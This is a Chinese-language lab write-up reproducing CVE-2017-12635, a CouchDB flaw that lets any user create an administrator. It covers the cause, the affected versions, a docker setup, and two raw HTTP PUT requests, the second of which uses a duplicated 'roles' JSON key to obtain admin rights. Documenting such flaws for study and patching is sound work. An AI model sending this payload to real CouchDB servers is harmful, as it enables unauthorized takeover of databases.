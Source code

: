 （CVE-2017-12635）Couchdb 垂直权限绕过漏洞
==========================================

一、漏洞简介
------------

在2017年11月15日，CVE-2017-12635和CVE-2017-12636披露，CVE-2017-12635是由于Erlang和JavaScript对JSON解析方式的不同，导致语句执行产生差异性导致的。这个漏洞可以让任意用户创建管理员，属于垂直权限绕过漏洞。

二、漏洞影响
------------

小于 1.7.0 以及 小于 2.1.1

三、复现过程
------------

### 环境搭建

    docker-compose build
    docker-compose up -d

环境启动后，访问`http://www.0-sec.org:5984/_utils/`即可看到一个web页面，说明Couchdb已成功启动。但我们不知道密码，无法登陆。

### 漏洞复现

首先，发送如下数据包：

    PUT /_users/org.couchdb.user:vulhub HTTP/1.1
    Host: www.0-sec.org:5984
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/json
    Content-Length: 90

    {
      "type": "user",
      "name": "vulhub",
      "roles": ["_admin"],
      "password": "vulhub"
    }

可见，返回403错误：`{"error":"forbidden","reason":"Only _admin may set roles"}`，只有管理员才能设置Role角色：

![](resource/(CVE-2017-12635)Couchdb垂直权限绕过漏洞/media/rId26.png)

发送包含两个roles的数据包，即可绕过限制：

    PUT /_users/org.couchdb.user:vulhub HTTP/1.1
    Host: www.0-sec.org:5984
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/json
    Content-Length: 108

    {
      "type": "user",
      "name": "vulhub",
      "roles": ["_admin"],
      "roles": [],
      "password": "vulhub"
    }

成功创建管理员，账户密码均为`vulhub`：

![](resource/(CVE-2017-12635)Couchdb垂直权限绕过漏洞/media/rId27.png)

再次访问`http://www.0-sec.org:5984/_utils/`，输入账户密码`vulhub`，可以成功登录：

![](resource/(CVE-2017-12635)Couchdb垂直权限绕过漏洞/media/rId28.png)

参考链接
--------

> https://vulhub.org/\#/environments/couchdb/CVE-2017-12635/
